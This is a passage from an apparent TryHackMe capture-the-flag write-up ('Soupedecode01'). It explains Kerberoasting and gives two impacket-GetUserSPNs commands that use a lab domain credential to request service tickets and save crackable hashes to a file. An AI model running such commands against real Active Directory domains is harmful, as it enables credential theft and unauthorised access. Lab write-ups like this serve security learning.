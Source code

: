 
## Root Flag

### [Kerberoasting](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/kerberoasting/)

You can check here About [Cracking Kerberos TGS Tickets](https://adsecurity.org/?p=2293) & [SPN](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) & [Kerberos Authentication](https://www.vaadata.com/blog/what-is-kerberos-kerberos-authentication-explained/)

Since we have a valid domain credentials, we check for `Kerberoastable` accounts using `GetUserSPNs`

so we request a Kerberos service ticket for one or more of these identified accounts from the ticket granting service `TGS` from `SPN` using `GetUserSPNs`

```sh
impacket-GetUserSPNs 'SOUPEDECODE.LOCAL/ybob317:ybob317' -request -usersfile rids.txt -dc-ip SOUPEDECODE.LOCAL -outputfile hashes-kerberoastables.txt
```
{: .wrap }

OR the best use this

```sh
impacket-GetUserSPNs 'SOUPEDECODE.LOCAL/ybob317:ybob317' -request -dc-ip SOUPEDECODE.LOCAL -outputfile hashes-kerberoastables.txt
```
{: .wrap }

![](/images/TryHackMe/Soupedecode01/GetUserSPNs.png)

---
